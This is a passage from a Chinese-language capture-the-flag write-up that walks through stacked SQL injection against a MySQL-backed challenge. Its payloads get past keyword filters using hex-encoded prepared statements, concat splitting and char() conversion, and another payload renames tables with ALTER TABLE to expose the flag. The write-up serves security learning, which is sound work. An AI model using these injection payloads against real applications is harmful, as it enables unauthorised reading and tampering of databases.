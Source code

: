 <font color='red'>也可以通过变量进行传递</font>

```mysql
SET @t = 'hahaha';  #存储表名
SET @sql = concat('select * from ', @t);  #存储SQL语句
PREPARE name from @sql;   #预定义SQL语句
EXECUTE name;  #执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  #删除预定义SQL语句
```

此时进行查询的话，又有几个思路

(1)将select * from \`1919810931114514\`转换为16进制

```mysql
1';prepare aaa from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460 ;execute aaa; --+
```

(2)使用concat函数拼接

```mysql
1';prepare aaa from concat('selec' , 't',' * from `1919810931114514` '); execute aaa; --+
```

(3)可以考虑用char函数将过滤词转为ascii

```mysql
1';PREPARE aaa from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE aaa;#
```

![](https://i.loli.net/2021/10/26/2oIUtOf8jGszqHm.png)

### 3.重命名

发现正常的查找是在`words`表中，通过id进行查找。

所以可以利用堆叠注入来改变表名从而实现查看flag

```mysql
1'; alter table words rename to aaa;alter table `1919810931114514` rename to words;alter table words change flag id varchar(60);--+
```

详解：

alter table words rename to aaa; 										先把原来的words表名字改成aaa
alter table \`1919810931114514\` rename to words; 	   将表1919810931114514的名字改为words
alter table words change flag id varchar(60);                      将改完名字后的表中的flag改为id，字符串尽量长点吧

再用`1' or 1=1 --+`爆出表段

![](https://i.loli.net/2021/10/27/4B7lA5UoSVjnwXk.png)

## 四、[SWPU2019]Web1

#### 知识点：MariaDB的SQL注入、无列名注入
